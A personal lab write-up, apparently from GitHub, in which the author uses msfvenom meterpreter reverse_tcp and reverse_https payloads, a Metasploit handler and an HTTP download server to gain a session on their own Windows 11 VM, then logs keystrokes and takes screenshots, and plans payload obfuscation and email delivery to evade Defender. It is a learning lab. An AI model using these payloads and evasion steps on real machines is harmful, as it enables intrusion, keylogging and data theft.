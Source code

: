 -   I havent worked too much with kali linux but today I am going to
    attempt to create a remote pc hacking lab. I am going to have 2
    vm's, a kali linux (attacker vm), and a windows 11 vm (vulnerable
    target). I might have a metasploitable vm further down the line to
    explore more about this.

-   First I am going to install a kali linux pre built vm and open it.

-   I run sudo apt update && sudo apt full-upgrade -y

    -   ![](images\media\image7.png)

-   Lets confirm our ip to generate payloads

    -   ![](images/media/image11.png)

    -   It is 192.168.7.132

-   Lets generate the payload

    -   ![](images/media/image4.png)

-   Lets set up the listener in metasploit. I first run msfconsole

    -   ![](images/media/image1.png)

-   In the metasploit terminal, lets run:

    -   use exploit/multi/handler

> set payload windows/meterpreter/reverse_tcp
>
> set LHOST 192.168.7.132
>
> set LPORT 4444
>
> exploit

-   ![](images/media/image6.png)

<!-- -->

-   I then open another terminal and create a http server where you can
    download the payload. I will later experiment social engineering
    attacks paired with the payload but for now we are going to download
    it directly from the server.

-   On the vm, I go directly to the http server
    ([[http://192.168.7.132/payload.exe]{.underline}](http://192.168.7.132/payload.exe))
    which automatically downloads the payload. I go ahead and execute it

    -   ![](images/media/image8.png)

-   If we go to our attacker machine, we get something

    -   ![](images/media/image10.png)

-   I am going to open the session by using sessions-i 1. I then attempt
    to get some info like executing sysinfo but unfortunately it appears
    windows defender is blocking the payload

    -   ![](images/media/image9.png)

-   Ok, In the vulnerable machine i double checked that real time
    defender, the firewall, etc are off

-   I am going to try to make another payload but this time i will use
    x64 architecture since i am targeting a windows 11 machine

    -   msfvenom -p windows/x64/meterpreter/reverse_tcp
        LHOST=192.168.x.x LPORT=4444 -f exe -o payload.exe

    -   Then do this command in the metasploit console:

    -   use exploit/multi/handler

> set payload windows/x64/meterpreter/reverse_tcp
>
> set LHOST 192.168.7.132
>
> set LPORT 4444
>
> Exploit

-   Ok, that didn't work

-   Gonna try reverse_tcp instead of reverse_https since it is less
    likely to be flagged. Also gonna use port 443 to bypass basic
    firewalls:

    -   msfvenom -p windows/x64/meterpreter/reverse_https
        LHOST=\<Kali_IP\> LPORT=443 -f exe -o payload.exe

    -   use exploit/multi/handler

> set payload windows/x64/meterpreter/reverse_https
>
> set LHOST 192.168.7.132
>
> set LPORT 443
>
> Exploit

-   After turning off every single protection layer I know of, I am
    finally able to run sysinfo. (i added the payload to allowed
    threats, and ran the program as the administrator)

    -   ![](images/media/image3.png)

-   Ran some basic commands like sysinfo, getuid, keyscan_start/dump,
    screenshot (you can see what was on the victim's machine behind the
    terminal)

    -   ![](images/media/image5.png)

    -   Also ran ipconfig to get networking information

    -   ![](images/media/image2.png)

**Next I will try to obsuficate the payload and put it in emails, files,
docs! I am going to attempt to also bypass all of windows defender
bloat.**
